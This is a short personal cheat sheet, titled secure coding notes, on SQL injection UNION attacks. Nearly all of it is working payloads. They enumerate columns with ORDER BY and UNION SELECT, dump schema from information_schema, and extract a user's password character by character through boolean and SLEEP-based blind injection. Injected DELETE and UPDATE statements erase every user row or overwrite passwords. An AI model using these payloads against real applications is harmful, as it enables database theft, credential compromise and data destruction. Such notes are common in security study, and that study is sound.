 # sc-notes
# my secure coding notes
# -------------------------------------
# SQLi
# SQL injection UNION attack

# (Pre-requisite: the number of columns is known)

# ----------------------------------------------------------------------------

# 2 methods for testing the number of columns in a given database table:

# ORDER BY keyword

# UNION operator
# Using the ORDER BY approach to find out the number of columns:

# 1' order by 1;-- -

# 1' order by 2;-- -

# 1' order by 3;-- -

# 1' order by 4;-- - 

# Using the UNION SELECT approach to find out the number of columns:

# 1' UNION SELECT null;-- -    (error)

# 1' UNION SELECT null, null;-- -   (error)

# 1' UNION SELECT null, null, null;-- -  (success)

# 1' UNION SELECT 1,2,table_schema from information_schema.tables;-- -

# 1' UNION SELECT 1,table_name,table_schema from information_schema.tables;-- -

# 1' UNION SELECT 1,column_name,table_schema from information_schema.columns where table_name='furniture';-- -

# 1' UNION SELECT 1,name,images from furniture.furniture;-- -

# 0' OR userid=IF([some condition],'1','0');-- -

# 0' OR userid=IF((SELECT substr(password,1,1) from user where userid='1')='a','1','0');-- -

# 0' OR userid=IF((SELECT substr(password,1,1) from user where userid='1')='b','1','0');-- -

# 1' OR userid=IF((SELECT substr(password,1,1) from user where userid='1')='a',SLEEP(0.3),'0');-- -

# 1' OR userid=IF((SELECT substr(password,1,3) from user where userid='1')='abc',SLEEP(0.3),'0');-- -

# -----------------after thoughts – more attack scenario---------------------------

# DELETE from user where userid = ‘${userid}’;

# DELETE from user where userid=’’ OR 1=1;-- - ‘${userid}’;

# UPDATE user SET age=’${age}’ WHERE userid=’${userid}’;

# UPDATE user SET age=’10’, password=’123’;-- - ’${age}’ WHERE userid=’${userid}’;
